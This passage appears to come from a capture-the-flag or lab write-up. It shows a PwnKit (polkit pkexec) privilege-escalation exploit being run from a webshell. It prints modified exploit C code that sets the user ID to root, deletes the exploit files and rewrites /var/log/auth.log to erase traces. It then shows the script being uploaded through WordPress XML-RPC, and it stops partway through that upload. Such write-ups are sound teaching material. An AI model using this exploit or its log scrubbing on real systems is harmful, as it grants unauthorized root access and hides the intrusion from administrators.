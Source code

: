 ### PwnKit Exploit

#### POC Exploit

There are a bunch of exploits out there. I went with [this
one](https://github.com/kimusan/pkwner?ref=pythonawesome.com) as a shell
script that will generate and run the payload. I’ll download the script, and
I’ll have to modify it a bit. Since I’m just running from a webshell, I can’t
have the result be a root shell. Instead, I’ll have to put the command I want
in the script. To test, I’ll run `id`, putting it in the place of `/bin/bash`
in what’s written to `pkwner.c` here:

    
    
    cat > pkwner/pkwner.c <<- EOM
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    void gconv() {}
    void gconv_init() {
      printf("hello");
      setuid(0); setgid(0);
            seteuid(0); setegid(0);
      system("PATH=/bin:/usr/bin:/usr/sbin:/usr/local/bin/:/usr/local/sbin;"
             "rm -rf 'GCONV_PATH=.' 'pkwner';"
             "cat /var/log/auth.log|grep -v pkwner >/tmp/al;cat /tmp/al >/var/log/auth.log;"
             "id");
            exit(0);
    }
    EOM
    

#### Upload

There is a `wp.uploadFile` method in WordPress XML-RPC which I found the
general syntax for [here](https://gist.github.com/georgestephanis/5681982). I
couldn’t find it in the [docs](https://python-wordpress-
xmlrpc.readthedocs.io/en/latest/index.html) for the Python client, but it is
in the [code](https://github.com/maxcutler/python-wordpress-
xmlrpc/blob/7ac0a6e9934fdbf02c2250932e0c026cf530d400/wordpress_xmlrpc/methods/media.py#L39).
There’s also a [test for uploading a
file](https://github.com/maxcutler/python-wordpress-
xmlrpc/blob/7ac0a6e9934fdbf02c2250932e0c026cf530d400/tests/test_media.py#L35),
which I can use as a model.

In the same Python terminal I’ve been working out of (with a client already
connected), I’ll import `media`, and then create a `data` object:

    
    
    >>> from wordpress_xmlrpc.methods import media
    >>> with open('pkwner.sh', 'r') as f:
    ...     script = f.read()
    ... 
    >>> data = { 'name': 'pkwner.sh', 'bits': script, 'type': 'text/plain' }
    